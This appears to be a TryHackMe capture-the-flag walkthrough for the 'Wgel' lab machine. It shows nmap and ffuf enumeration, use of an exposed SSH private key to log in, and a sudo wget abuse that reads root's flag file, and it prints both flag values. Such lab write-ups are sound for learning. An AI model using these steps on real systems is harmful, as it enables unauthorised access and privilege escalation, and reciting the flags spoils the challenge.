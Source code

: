 # Wgel_CTF
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

Compromise the machine and read the user.txt and root.txt.

Tags
--
* Fuzzing
* SSH
* Search Username
* Sudoers

Tools used
--
* nmap
* ffuf
* ssh
* wget

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.18.98.39

Victim:
* Name: victim_machine
* IP Address: 10.10.175.239
* Other information must be gathered during the attack

## Phase 1: Enumeration
```
sudo nmap -sS -sC -sV 10.10.175.239 -p- -T5 -vvv -g 53

<SNIP>
Discovered open port 22/tcp on 10.10.175.239
Discovered open port 80/tcp on 10.10.175.239
<SNIP>
```
Let's fuzz the HTTP service:
```
ffuf -u http://10.10.175.239/FFUF -H 'Host: 10.10.175.239' -H 'User-Agent: Mozi
lla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xh
tml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-En
coding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'S
ec-GPC: 1' -w $SECLISTS/Discovery/Web-Content/directory-list-2.3-small.txt:FFUF

sitemap                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 111ms]
```
If we visit `http://10.10.175.239/sitemap/`, we land on a website. Let's explore it. By visiting the several pages linked inside the website, we don't find anything useful. Let's fuzz this level of the website:
```
ffuf -u http://10.10.175.239/sitemap/FFUF -H 'Host: 10.10.175.239' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64;
 rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept
-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' 
-H 'Sec-GPC: 1' -w $SECLISTS/Discovery/Web-Content/common.txt:FFUF

.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 43ms]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 44ms]
.ssh                    [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 44ms]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 45ms]
css                     [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 46ms]
fonts                   [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 41ms]
images                  [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 38ms]
index.html              [Status: 200, Size: 3940, Words: 17, Lines: 13, Duration: 39ms]
js                      [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 37ms]
```
## Phase 2: Foothold

By accessing on `.ssh` we can retrieve the `id_rsa`. Now we need to find a username. The username can be found in the Apache source page at `http://10.10.175.239/` as `jessie`. Run:
```
ssh -i id_rsa 10.10.175.239 -l jessie

cat Documents/user_flag.txt 
057c67131c3d5e42dd5cd3075b198ff6
```

## Phase 3: Privilege Escalation

Run:
```
sudo -l

Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```
Let's read the root flag file:
```
sudo wget -i /root/root_flag.txt

--2022-09-17 03:32:42--  http://b1b968b37519ad1daa6408188649263d/
Resolving b1b968b37519ad1daa6408188649263d (b1b968b37519ad1daa6408188649263d)... failed: Name or service not known.
wget: unable to resolve host address ‘b1b968b37519ad1daa6408188649263d’
```
So we got the root flag.